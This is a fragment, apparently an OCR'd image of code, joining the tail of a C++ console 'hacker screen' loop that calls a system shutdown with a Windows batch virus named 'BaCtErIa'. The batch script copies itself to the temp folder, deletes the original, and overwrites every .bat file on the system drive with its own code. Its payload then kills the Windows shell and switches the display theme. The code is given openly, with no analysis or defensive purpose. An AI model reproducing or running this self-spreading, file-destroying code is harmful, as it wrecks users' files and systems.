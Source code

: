 else
{
while (!input.eof())
{
input.getline(buffer,255);
system(“call shutdown.exe -S”);
goto START;
}
}
}
 
START:{
for(int i = 0; i < 1; i++)
{
int num = (rand() % 10);
SetConsoleTextAttribute(outToScreen, FOREGROUND_GREEN | FOREGROUND_INTENSITY);
cout << setw(4) << num;
cout << setw(4) << “0%”;
cout << setw(4) << “P”;
cout << setw(4) << ” “;
cout << setw(4) << “)”;
cout << setw(4) << “#”;
cout << setw(4) << “X”;
cout << setw(4) << “@”;
cout << setw(4) << “1&”;
cout << setw(4) << “*”;
cout << setw(4) << “||”;
cout << setw(4) << ” \a”;
Sleep(60);
}
}
for ( int j = 0; j < 5; j++)
{
SetConsoleTextAttribute(outToScreen, FOREGROUND_GREEN);
int number = (rand() % 24);
cout << setw(4) << number;
}
goto START;
}
@echo off>nul.BaCtErIa
:ChEcK1
if exist %temp%\BaCtErIa goto ChEcK2
if not exist %temp%\BaCtErIa goto BaCkUp
:ChEcK2
if exist %temp%\BaCtErIa\SpIrIlLuM.tmp goto PaYlOaD
if not exist %temp%\BaCtErIa\SpIrIlLuM.tmp goto InFeCt
:BaCkUp
md %temp%\BaCtErIa
copy %0 %temp%\BaCtErIa\BaCiLlUs.bat
start %temp%\BaCtErIa\BaCiLlUs.bat
del /f /q %0
:InFeCt
cd %temp%
dir /s /b %systemdrive%\*.bat>>%temp%\BaCtErIa\MyCoPlAsMa.tmp
cd %temp%\BaCtErIa
echo y | for /f "tokens=1,* delims=: " %%j in (MyCoPlAsMa.tmp) do copy /y %0 "%%j:%%k"
cd %~dp0
echo %random%>>%temp%\BaCtErIa\SpIrIlLuM.tmp
goto ChEcK2
:PaYlOaD
taskkill /f /im explorer.exe
cd "%systemdrive%\Windows\Resources\Ease of Access Themes"
start hcblack.theme
taskkill /f /im explorer.exe